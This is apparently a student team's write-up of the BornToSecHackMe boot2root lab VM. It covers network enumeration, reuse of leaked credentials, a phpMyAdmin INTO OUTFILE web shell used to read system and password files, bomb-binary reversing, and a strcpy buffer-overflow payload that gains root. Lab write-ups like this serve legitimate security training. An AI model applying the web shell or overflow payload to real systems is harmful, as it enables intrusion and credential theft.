# Ways to exploit the VM #1

## Finding the IP of the VM
We tried a lot of different commands on our Macs and Linux.
```sh
ifconfig # to get the ip of the vm
```
```sh
sudo nmap -v -T4 -A 192.168.1.0/24 # scan our local network
```
```sh
netstat -r # get open ports and ip
```
```sh
arp -a
```

We found an ip with a `ftp` port open (21). None of us had a FTP server on our machines, so it had to be the VM 

## Enumerating the machine
We then ran `nmap` with the version options to find all the services running
```sh
➜  ~ nmap -sC -sV -oN nmap/initial 192.168.1.48
Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-14 21:31 CET
Nmap scan report for 192.168.1.48
Host is up (0.0018s latency).
Not shown: 994 closed ports
PORT    STATE SERVICE  VERSION
21/tcp  open  ftp      vsftpd 2.0.8 or later
|_ftp-anon: got code 500 "OOPS: vsftpd: refusing to run with writable root inside chroot()".
22/tcp  open  ssh      OpenSSH 5.9p1 Debian 5ubuntu1.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   1024 07:bf:02:20:f0:8a:c8:48:1e:fc:41:ae:a4:46:fa:25 (DSA)
|   2048 26:dd:80:a3:df:c4:4b:53:1e:53:42:46:ef:6e:30:b2 (RSA)
|_  256 cf:c3:8c:31:d7:47:7c:84:e2:d2:16:31:b2:8e:63:a7 (ECDSA)
80/tcp  open  http     Apache httpd 2.2.22 ((Ubuntu))
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_http-title: Hack me if you can
143/tcp open  imap     Dovecot imapd
|_imap-capabilities: OK have post-login capabilities LITERAL+ STARTTLS LOGINDISABLEDA0001 SASL-IR ENABLE listed IMAP4rev1 ID LOGIN-REFERRALS Pre-login more IDLE
| ssl-cert: Subject: commonName=localhost/organizationName=Dovecot mail server
| Not valid before: 2015-10-08T20:57:30
|_Not valid after:  2025-10-07T20:57:30
|_ssl-date: 2021-01-14T20:31:59+00:00; 0s from scanner time.
443/tcp open  ssl/http Apache httpd 2.2.22
| ssl-cert: Subject: commonName=BornToSec
| Not valid before: 2015-10-08T00:19:46
|_Not valid after:  2025-10-05T00:19:46
|_ssl-date: 2021-01-14T20:31:59+00:00; 0s from scanner time.
993/tcp open  ssl/imap Dovecot imapd
|_imap-capabilities: OK AUTH=PLAINA0001 have LITERAL+ Pre-login post-login SASL-IR ENABLE listed IMAP4rev1 ID LOGIN-REFERRALS capabilities more IDLE
| ssl-cert: Subject: commonName=localhost/organizationName=Dovecot mail server
| Not valid before: 2015-10-08T20:57:30
|_Not valid after:  2025-10-07T20:57:30
|_ssl-date: 2021-01-14T20:31:59+00:00; 0s from scanner time.
Service Info: Host: 127.0.0.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 31.10 seconds
```
We also launched GoBuster in `dir` (directory) mode to find all the directories availables in the `https` `443` port.
```sh
➜  gobuster-darwin-amd64 ./gobuster dir --url "https://192.168.1.48" -w directory-list-2.3-medium.txt -k
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     https://192.168.1.48
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/01/14 22:11:26 Starting gobuster in directory enumeration mode
===============================================================
/forum                (Status: 301) [Size: 314] [--> https://192.168.1.48/forum/]
/webmail              (Status: 301) [Size: 316] [--> https://192.168.1.48/webmail/]
/phpmyadmin           (Status: 301) [Size: 319] [--> https://192.168.1.48/phpmyadmin/]
/server-status        (Status: 403) [Size: 294]

===============================================================
2021/01/14 22:15:57 Finished
===============================================================
```

## Visiting the forum

As seen in `gobuster`, we have access to a forum.
While browsing unidentified, we found what looked like server logs and a password inside
https://ip_machine/forum/index.php?id=6



Here is the password we extracted `!q\]Ej?*5K5cy*AJ`

We then connected to the user `lmezard` on the forum with that password and we found her email `laurie@borntosec.net`

## Connecting to the webmail

We then tried to access the webmail with the password and her email

Inside one of the email were credentials for `pmpmyadmin` root account


```
USERNAME: root
PASSWORD: Fg-'kKXBj87E:aJ$
```

## Connecting and exploiting phpmyadmin

We got connected to `phpmyadmin` as the root user.

We analysed the forum directory with `gobuster`
```sh
➜  gobuster-darwin-amd64 ./gobuster dir --url "https://192.168.1.48/forum/" -w directory-list-2.3-medium.txt -k
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     https://192.168.1.48/forum/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/01/14 22:10:38 Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 321] [--> https://192.168.1.48/forum/images/]
/themes               (Status: 301) [Size: 321] [--> https://192.168.1.48/forum/themes/]
/modules              (Status: 301) [Size: 322] [--> https://192.168.1.48/forum/modules/]
/index                (Status: 200) [Size: 4935]
/includes             (Status: 301) [Size: 323] [--> https://192.168.1.48/forum/includes/]
/update               (Status: 301) [Size: 321] [--> https://192.168.1.48/forum/update/]
/js                   (Status: 301) [Size: 317] [--> https://192.168.1.48/forum/js/]
/lang                 (Status: 301) [Size: 319] [--> https://192.168.1.48/forum/lang/]
/config               (Status: 403) [Size: 293]
/backup               (Status: 403) [Size: 293]
/templates_c          (Status: 301) [Size: 326] [--> https://192.168.1.48/forum/templates_c/]

===============================================================
2021/01/14 22:15:36 Finished
===============================================================
```

And there is a `templates_c` folder


We looked around and found that we could create a new file from `phpmyadmin` into this folder
```sh
SELECT "<?php system($_GET['cmd']) ?>" into outfile "/var/www/forum/templates_c/cmd.php"
```
So we executed this in the `phpmyadmin` exec page

And we got a new file

And with that we could execute commands

for example: https://192.168.1.48/forum/templates_c/EXPLOIT.php?cmd=ls

to execute ls and with anything we want just by replacing ls.

We then looked at etc/password
```
https://192.168.1.48/forum/templates_c/cmd.php?cmd=cat%20/etc/passwd
root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/bin/sh bin:x:2:2:bin:/bin:/bin/sh sys:x:3:3:sys:/dev:/bin/sh sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/bin/sh man:x:6:12:man:/var/cache/man:/bin/sh lp:x:7:7:lp:/var/spool/lpd:/bin/sh mail:x:8:8:mail:/var/mail:/bin/sh news:x:9:9:news:/var/spool/news:/bin/sh uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh proxy:x:13:13:proxy:/bin:/bin/sh www-data:x:33:33:www-data:/var/www:/bin/sh backup:x:34:34:backup:/var/backups:/bin/sh list:x:38:38:Mailing List Manager:/var/list:/bin/sh irc:x:39:39:ircd:/var/run/ircd:/bin/sh gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh nobody:x:65534:65534:nobody:/nonexistent:/bin/sh libuuid:x:100:101::/var/lib/libuuid:/bin/sh syslog:x:101:103::/home/syslog:/bin/false messagebus:x:102:106::/var/run/dbus:/bin/false whoopsie:x:103:107::/nonexistent:/bin/false landscape:x:104:110::/var/lib/landscape:/bin/false sshd:x:105:65534::/var/run/sshd:/usr/sbin/nologin ft_root:x:1000:1000:ft_root,,,:/home/ft_root:/bin/bash mysql:x:106:115:MySQL Server,,,:/nonexistent:/bin/false ftp:x:107:116:ftp daemon,,,:/srv/ftp:/bin/false lmezard:x:1001:1001:laurie,,,:/home/lmezard:/bin/bash laurie@borntosec.net:x:1002:1002:Laurie,,,:/home/laurie@borntosec.net:/bin/bash laurie:x:1003:1003:,,,:/home/laurie:/bin/bash thor:x:1004:1004:,,,:/home/thor:/bin/bash zaz:x:1005:1005:,,,:/home/zaz:/bin/bash dovecot:x:108:117:Dovecot mail server,,,:/usr/lib/dovecot:/bin/false dovenull:x:109:65534:Dovecot login user,,,:/nonexistent:/bin/false postfix:x:110:118::/var/spool/postfix:/bin/false 
```
But nothing was interesting so we looked at `/home` and found an interesting file
```
https://192.168.1.48/forum/templates_c/cmd.php?cmd=cat%20/home/LOOKATME/password
```
Inside of it were FTP passwords
```
lmezard:G!@M6f4Eatau{sF 
```

## Using ftp and fun
We connected using filezilla and got a `readme` and a `fun` file



We found that the `fun` file was a `POSIX tar archive (GNU)`

We ran `tar -xvf` on the fun file gave us a lot of pcap file in an `ft_fun` folder

Here's how we assembled the password
```shell
➜  ft_fun grep "getme*" *
0T16C.pcap:char getme4() {
32O0M.pcap:char getme7() {
331ZU.pcap:char getme1() {
4KAOH.pcap:char getme5() {
# [...]
test:	printf("%c",getme10());
test:	printf("%c",getme11());
test:	printf("%c",getme12());
test://file632char getme2() {
➜  ft_fun cat 0T16C.pcap
char getme4() {

//file115%
➜  ft_fun grep "//file116" *
7DT5Q.pcap://file116
test://file116}void useless() {
➜  ft_fun cat 7DT5Q.pcap
	return 'a';

//file116%
```

So we found the password `Iheartpwnage`

We hashed it in `sha256` and got `330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4` which is
then used to ssh with laurie on the boot2root iso

At the root of `laurie`'s hme, we found a README:
```sh
laurie@BornToSecHackMe:~$ cat README
Diffuse this bomb!
When you have all the password use it as "thor" user with ssh.

HINT:
P
 2
 b

o
4

NO SPACE IN THE PASSWORD (password is case sensitive).
```
Also present was a `bomb` executable. We disassembled it in Ghidra, here's what the main function looked liked

We can see here that the bomb reads the input and then calls a function for each phase, 6 in total.

### Bomb phase 1


Here we can clearly see that we check if the string is equal to:
```
Public speaking is very easy.
```
Phase one done
### Bomb phase 2

Here, Quentin manually reversed engineered in his head the numbers and found this combination
```
1 2 6 24 120 720
```
### Bomb phase 3


Here, it's a simple switch. Each case corresponds to the first digit, then the `cvar` corresponds to the second part and then the last is the hex number in dec
```
0 q 777
1 b 214
2 b 755
3 k 251
4 o 160
5 t 458
6 v 780
7 b 524
```

All of these solutions are possible **but** only one will work for the zaz password: `1 b 214`

### Bomb phase 4


Here, this is pretty simple. It's looking for a number different of 1 and above 1 and, if this number when ran in a fibonnaci doesn't give 55, it explodes

9 is the number that gives 55 in fibonnaci so that's our answer
```
9
```
### Bomb phase 5


Here, we can clearly see it wants a string that is 6 chars long.

It then uses the string `isrveawhobpnutfg` as a lookup table for each input char to match it to giants
The answer is then
```
opekma
```
### Bomb phase 6


Here, we know it reads 6 numbers.
We can also see like 17 that if the number is above not between `1` and `6` it explodes
Also, line 23, if the number is already present, it explodes

So with that in mind, we need `x x x x x x` with numbers from 1 to 6 and no repetitions.
We also know the first number was `4` from the README but we ignored it.

So we bruteforced it

Creation of all the permutations in a file
```py
import itertools

with open("brute.txt", "w") as f:
    for perm in itertools.permutations([1, 2, 3, 4, 5, 6]):
        f.write(" ".join(str(x) for x in perm) + "\n")
```

Running all the permutations in the bomb
```sh
#!/bin/bash

while IFS= read -r line
do
  echo "$line"
  echo -e "Public speaking is very easy.\n1 2 6 24 120 720\n0 q 777\n9\nopekma\n$line\n" | ./bomb
done < brute.txt
```

Grepping the results
```sh
bash t.sh | grep "Congratulations" -B8
```
output :
```sh
laurie@BornToSecHackMe:~$ bash t.sh | grep "Congratulations" -B8
4 2 6 3 1 5
Welcome this is my little bomb !!!! You have 6 stages with
only one life good luck !! Have a nice day!
Phase 1 defused. How about the next one?
That's number 2.  Keep going!
Halfway there!
So you got that one.  Try this one.
Good work!  On to the next...
Congratulations! You've defused the bomb!
```

### Final defuse

So the final result is save on a file and used to diffuse the bomb (diffuser.txt)
```txt
Public speaking is very easy.
1 2 6 24 120 720
0 q 777
9
opekma
4 2 6 3 1 5
```

then we just connect thor user with: (with 1 and 3 inversed because 🤷)
```
Publicspeakingisveryeasy.126241207201b2149opekmq426135
```

## SSH to thor

in the thor user we have a README and a a file that we deduce is some command for turtle
```sh
cat README
Finish this challenge and use the result as password for 'zaz' user.
```
we use the turtle file with this script
```py
from turtle import *

begin_fill()
with open("turtle", "r") as f:
    lines = f.readlines()
right(90)
for line in lines:
    cmd = line.split(" ")
    if cmd[0] == "Avance":
        forward(int(cmd[1]))
    elif cmd[0] == "Tourne":
        if cmd[1] == "gauche":
            left(int(cmd[3]))
        elif cmd[1] == "droite":
            right(int(cmd[3]))
    elif cmd[0] == "Recule":
        backward(int(cmd[1]))
    else:
        print(line)
end_fill()
done()
```

Then the turtle draw letters ```SLASH```
So we enctrypt it with md5 and that was the pass to user zaz
```
646da671ca01bb5d84dbb5fb2238dc8e
```

then we decompile the exploit_me and found that there is a strcpy inside.
We used it to do a buffer overflow with this command :

```
#./exploit_me $(python -c "print('X' * 140 + '\x60\xb0\xe6\xb7' + 'D' * 4 + '\x58\xcc\xf8\xb7')")
# whoami
root
```

and that's it we are roor yay !!! 
